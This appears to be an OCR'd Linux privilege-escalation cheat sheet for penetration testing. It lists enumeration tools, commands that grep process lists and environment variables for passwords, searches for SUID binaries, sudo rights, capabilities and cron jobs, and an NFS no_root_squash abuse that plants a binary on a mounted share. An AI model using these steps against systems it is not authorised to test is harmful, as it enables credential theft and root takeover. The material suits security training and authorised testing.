 ```bash
linPEAS.sh
LinEnum.sh
linuxprivchecker.py
unix-privesc-check
Mestaploit: multi/recon/local_exploit_suggester
```

## Sensitive Information

```bash
cat .bashrc
env #checking environment variables
watch -n 1 "ps -aux | grep pass" #Harvesting active processes for credentials
#Process related information can also be obtained from PSPY
```

## Sudo/SUID/Capabilities

<aside>
💡 GTFOBins: [https://gtfobins.github.io/](https://gtfobins.github.io/)

</aside>

```bash
sudo -l
find / -perm -u=s -type f 2>/dev/null
getcap -r / 2>/dev/null
```

## Cron Jobs

```bash
#Detecting Cronjobs
cat /etc/crontab
crontab -l

pspy #handy tool to livemonitor stuff happening in Linux
```

## NFS

```bash
##Mountable shares
cat /etc/exports #On target
showmount -e <target IP> #On attacker
###Check for "no_root_squash" in the output of shares

mount -o rw <targetIP>:<share-location> <directory path we created>
#Now create a binary there
chmod +x <binary>
```

